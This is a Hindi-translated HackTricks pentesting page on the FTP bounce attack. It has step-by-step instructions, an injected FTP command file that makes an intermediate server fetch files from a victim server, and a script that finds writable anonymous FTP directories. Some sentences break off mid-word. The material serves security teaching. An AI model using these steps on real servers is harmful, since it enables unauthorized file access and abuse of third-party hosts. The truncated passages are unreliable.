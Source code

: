 <details>

<summary><a href="https://cloud.hacktricks.xyz/pentesting-cloud/pentesting-cloud-methodology"><strong>☁️ HackTricks क्लाउड ☁️</strong></a> -<a href="https://twitter.com/hacktricks_live"><strong>🐦 ट्विटर 🐦</strong></a> - <a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ ट्विच 🎙️</strong></a> - <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 यूट्यूब 🎥</strong></a></summary>

- क्या आप किसी **साइबर सुरक्षा कंपनी** में काम करते हैं? क्या आप अपनी **कंपनी को HackTricks में विज्ञापित** देखना चाहते हैं? या क्या आपको **PEASS की नवीनतम संस्करण या HackTricks को PDF में डाउनलोड करने का उपयोग** करने की आवश्यकता है? [**सदस्यता योजनाएं**](https://github.com/sponsors/carlospolop) की जांच करें!

- खोजें [**The PEASS Family**](https://opensea.io/collection/the-peass-family), हमारा विशेष संग्रह [**NFTs**](https://opensea.io/collection/the-peass-family)

- प्राप्त करें [**आधिकारिक PEASS & HackTricks swag**](https://peass.creator-spring.com)

- **शामिल हों** [**💬**](https://emojipedia.org/speech-balloon/) [**डिस्कॉर्ड समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) या **फॉलो** करें मुझे **ट्विटर पर** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/hacktricks_live)**.**

- **अपने हैकिंग ट्रिक्स साझा करें, [hacktricks रेपो](https://github.com/carlospolop/hacktricks) और [hacktricks-cloud रेपो](https://github.com/carlospolop/hacktricks-cloud) में पीआर जमा करके।**

</details>


# रिज्यूम

यदि आपके पास एक बाउंस FTP सर्वर तक पहुंच है, तो आप इसे अन्य FTP सर्वर की फ़ाइलें अनुरोध करने के लिए उपयोग कर सकते हैं \(जहां आपको कुछ क्रेडेंशियल्स पता है\) और उस फ़ाइल को अपने खुद के सर्वर पर डाउनलोड कर सकते हैं।

## आवश्यकताएं

FTP मध्य सर्वर में मान्य क्रेडेंशियल्स
विक्टिम FTP सर्वर में मान्य FTP क्रेडेंशियल्स
दोनों सर्वर पोर्ट कमांड \(बाउंस FTP हमला\) स्वीकार करते हैं
आप FRP मध्य सर्वर के कुछ निर्देशिका में लिख सकते हैं
मध्य सर्वर के पास किसी कारण से विक्टिम FTP सर्वर में आपसे अधिक पहुंच होगी \(यही आप उपयोग करेंगे\)

## चरण

1. अपने खुद के FTP सर्वर से कनेक्ट करें और इसे पैसिव \(पास्व कमांड\) बनाने के लिए कनेक्शन बनाएं, जहां विक्टिम सेवा फ़ाइल भेजेगी
2. वह फ़ाइल बनाएं जो FTP मध्य सर्वर को विक्टिम सर्वर को अनुरोध करने और एक फ़ाइल को अपने सर्वर पर डाउनलोड करने के लिए आवश्यक कमांडों की सादा पाठ्यक्रमिकता होगी \(यह हमला है\)
3. FTP मध्य सर्वर से कनेक्ट करें और पिछली फ़ाइल अपलोड करें
4. FTP मध्य सर्वर को विक्टिम सर्वर के साथ एक कनेक्शन स्थापित करें और हमला फ़ाइल भेजें
5. अपने खुद के FTP सर्वर में फ़ाइल को कैप्चर करें
6. FTP मध्य सर्वर से हमला फ़ाइल को हटाएं

इस पोस्ट में सभी जानकारी यहां से निकाली गई थी: [http://www.ouah.org/ftpbounce.html](http://www.ouah.org/ftpbounce.html)

#  FTP बाउंस हमला

इसमें "FTP सर्वर बाउंस हमला" का एक संभावित उपयोग चर्चा की गई है। इसका उपयोग किया जाने वाला तंत्र संभवतः अच्छी तरह से जाना जाता है, लेकिन अब तक इसे विस्तार से या इसे ठीक करने की रुचि कम या अवस्थित दिखाई नहीं दी है। यह विशेष उदाहरण एक प्रयास है ताकि पाठक यह ध्यान दें कि मानक FTP प्रोटोकॉल के कुछ वास्तव में गड़बड़ विचारों हैं।

इसके अलावा, अलैन क्नाफ़ ने imag.fr पर कुछ महीने पहले इन मुद्दों के कुछ रोचक चर्चा के लिए धन्यवाद दिया, जिसने मुझे इनके बारे में गहराई से सोचने पर मजबूर किया।

##  उद्देश्य

आप विदेशी.एफआर.एफआर पर उपयोगकर्ता हैं, आईपी पता F.F.F.F है, और क्रिप्टो.कॉम से क्रिप्टोग्राफिक स्रोत कोड प्राप्त करना चाहते हैं। क्रिप्टो.कॉम का FTP सर्वर आपके कनेक्शन की अनुमति देने के लिए सेटअप किया गया है, लेकिन आपको क्रिप्टो स्रोतों तक पहुंच नहीं है क्योंकि आपका स्रोत आईपी पता एक अमेरिकी साइट का है \[जितना कि उनके FTP सर्वर को DNS से पता चल सकता है\]। किसी भी स्थिति में, आप क्रिप्टो.कॉम के सर्वर से वह प्राप्त नहीं कर सकते हैं जो आप च
```text
pasv
stor foobar
```
उस पते और पोर्ट का ध्यान रखें जो पीएएसवी कमांड से लौटते हैं, F,F,F,F,X,X। यह FTP सत्र अब रुक जाएगा, इसलिए इसे बैकग्राउंड में रखें या दूसरी विंडो में जाएं या कुछ और करें ताकि आगे की प्रक्रिया जारी रख सकें।

FTP सर्वर कमांडों को सम्मिलित करने के लिए एक फ़ाइल बनाएं। हम इसे "instrs" के नाम से बुलाएंगे। यह इस तरह दिखेगा:
```text
user ftp
pass -anonymous@
cwd /export-restricted-crypto
type i
port F,F,F,F,X,X
retr crypto.tar.Z
quit
^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@ ... ^@^@^@^@
^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@ ... ^@^@^@^@
...
```
F,F,F,F,X,X वही पता और पोर्ट है जिसे आपकी खुद की मशीन ने पहले कनेक्शन पर आपको दिया था। अंत में कचरा अतिरिक्त पंक्तियाँ हैं जिनमें 250 NULLS और कुछ नहीं होता है, जो लगभग 60K के अतिरिक्त डेटा को भरने के लिए पर्याप्त होता है। इस भरने की वजह बाद में समझाई जाती है।

एक FTP कनेक्शन को ufred.edu पर खोलें, अनामक रूप से लॉग इन करें, और /incoming पर cd करें। अब इस FTP सत्र में निम्नलिखित टाइप करें, जो आपके "`instrs`" फ़ाइल की एक प्रतिलिपि को स्थानांतरित करता है और फिर ufred.edu के FTP सर्वर को आपकी फ़ाइल का उपयोग करके crypto.com के FTP सर्वर से कनेक्ट करता है:
```text
put instrs
port C,C,C,C,0,21
retr instrs
```
`Crypto.tar.Z` अब आपकी मशीन पर आपकी पहली FTP कनेक्शन के माध्यम से "`foobar`" के रूप में दिखाई देगा। यदि ufred.edu के साथ कनेक्शन स्वयं ही बंद नहीं हुआ है क्योंकि यह एक ज्ञात सर्वर बग है, तो "`instrs`" को हटा कर साफ करें और बाहर निकलें। अन्यथा, आपको समाप्त करने के लिए फिर से कनेक्ट करना होगा।

## चर्चा

इसके कई विभिन्न रूप हैं। आपका PASV सुनने वाला कनेक्शन आपके पास फ़ाइल लेखन उपयोग करने वाली किसी भी मशीन पर खोला जा सकता है - आपका खुद का, ufred.edu के एक और कनेक्शन पर, या पूरी तरह से अनुबद्ध स्थान पर। वास्तव में, यह एक FTP सर्वर नहीं होना है - किसी भी उपयोगीयता जो एक ज्ञात TCP पोर्ट पर सुनती है और इसे एक फ़ाइल में कच्चा डेटा पढ़ती है, यह करने के लिए काफी है। एक पैशिव-मोड FTP डेटा कनेक्शन बस इसे करने का एक सुविधाजनक तरीका है।

यूफ्रेड -&gt; क्रिप्टो कनेक्शन के दोनों ओर TCP विंडोज़ को भरने के लिए कमांड फ़ाइल के अंत में अतिरिक्त nulls होते हैं, और सुनिश्चित करें कि कमांड कनेक्शन पूरी सत्र को निष्पादित करने के लिए पर्याप्त समय तक खुली रहती है। अन्यथा, अधिकांश FTP सर्वर नियमित रूप से सभी स्थानांतरण और कमांड प्रसंस्करण को रद्द कर देते हैं जब नियंत्रण कनेक्शन पहले से ही पूर्वावधि में बंद हो जाती है। डेटा का आकार प्राप्ति और प्रेषण विंडोज़ को भरने के लिए पर्याप्त है, जो कुछ ऑपरेटिंग सिस्टमों पर काफी बड़े होते हैं \[लगभग 30K के आदेश में\]। यदि आप जानते हैं कि आपके दोनों ओर कौन से ऑपरेटिंग सिस्टम हैं और उनके डिफ़ॉल्ट TCP विंडो आकारों का योग है, तो आप इसे कम कर सकते हैं। यह लक्ष्य सर्वर पर कमांड बफर को ओवररन करने से बचने के लिए 250 अक्षरों की पंक्तियों में विभाजित है - शायद शैक्षणिक होने की क्योंकि आपने सर्वर से छोड़ दिया है।

यदि crypto.com आपको foreign.fr से किसी भी FTP क्लाइंट कनेक्शन की अनुमति नहीं देता है और आपको देखना है कि कौन सी फ़ाइलें कहां हैं, तो आप हमेशा अपने कमांड फ़ाइल में "`list -aR`" डाल सकते हैं और ufred के माध्यम से पूरे ट्री का निर्देशिका सूची प्राप्त कर सकते हैं।

आपको उपयोग करने के लिए अपनी कमांड फ़ाइल को बाइनरी मोड के बजाय ASCII मोड में लाने की आवश्यकता हो सकती है। कुछ FTP सर्वर सीधे नए पंक्तियों के साथ निपुणता कर सकते हैं, लेकिन अन्य उपयोगीयताओं के लिए फ़ाइलें प्राप्त करते समय इसे CRLF जोड़ी गई कमांड लाइनों के साथ समाप्त करने की आवश्यकता हो सकती है।

## अन्य संभावनाएं

इसके बावजूद कि ऐसे थर्ड पार्टी कनेक्शन एकतरफा होते हैं, इन्हें हर तरह के कामों के लिए उपयोग किया जा सकता है। ऐसे तरीकों का उपयोग करके आप लगभग अनुराधित मेल और समाचार पोस्ट कर सकते हैं, विभिन्न साइटों पर सर्वरों पर हमला कर सकते हैं, डिस्क भर सकते हैं, फ़ायरवॉल पर कोशिश कर सकते हैं, और साथ ही परेशान और पता लगाने में कठिन हो सकते हैं। थोड़ी सोच आपको कई अन्य डरावने संभावनाओं की जागरूकता दिलाएगी।

इस तरह से शुरू किए गए कनेक्शन स्रोत पोर्ट 20 से आते हैं, जिसे कुछ साइटें "ftp-data" समस्या को संघटित करने के लिए अपने फ़ायरवॉल के माध्यम से अनुमति देती हैं। कुछ उद्देश्यों क
```text
#!/bin/sh
ftp -n $1 << FOE
quote "user ftp"
quote "pass -nobody@"
prompt
cd /
dir "-aR" xxx.$$
bye
FOE
# Not smart enough to figure out ftp's numeric UID if no passwd file!
cat -v xxx.$$ | awk '
BEGIN { idir = "/" ; dirp = 0 }
/.:$/ { idir = $0 ; dirp = 1 ; }
/^[-d][-r](......w.|........  *[0-9]* ftp  *)/ {
if (dirp == 1) print idir
dirp = 0
print $0
} '
rm xxx.$$
```
मुझे लगता है कि इसे एक सफेद पेपर कहा जा सकता है। यह [/random/ftp-attack](ftp://ftp.avian.org:/random/ftp-attack) पर avian.org पर उपलब्ध है और विभिन्न संबंधित स्थानों पर पोस्ट किया गया है। \_H\* 950712



<details>

<summary><a href="https://cloud.hacktricks.xyz/pentesting-cloud/pentesting-cloud-methodology"><strong>☁️ HackTricks Cloud ☁️</strong></a> -<a href="https://twitter.com/hacktricks_live"><strong>🐦 Twitter 🐦</strong></a> - <a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ Twitch 🎙️</strong></a> - <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary>

- क्या आप **साइबर सुरक्षा कंपनी** में काम करते हैं? क्या आप अपनी **कंपनी को HackTricks में विज्ञापित** देखना चाहते हैं? या क्या आपको **PEASS के नवीनतम संस्करण या HackTricks को PDF में डाउनलोड करने का उपयोग** करने की आवश्यकता है? [**सदस्यता योजनाएं**](https://github.com/sponsors/carlospolop) की जांच करें!

- खोजें [**The PEASS Family**](https://opensea.io/collection/the-peass-family), हमारा विशेष संग्रह [**NFTs**](https://opensea.io/collection/the-peass-family)

- प्राप्त करें [**आधिकारिक PEASS & HackTricks swag**](https://peass.creator-spring.com)

- **शामिल हों** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) में या मुझे **Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/hacktricks_live)** का** **अनुसरण** करें।**

- **अपने हैकिंग ट्रिक्स को [hacktricks रेपो](https://github.com/carlospolop/hacktricks) और [hacktricks-cloud रेपो](https://github.com/carlospolop/hacktricks-cloud) में पीआर जमा करके साझा करें।**

</details>
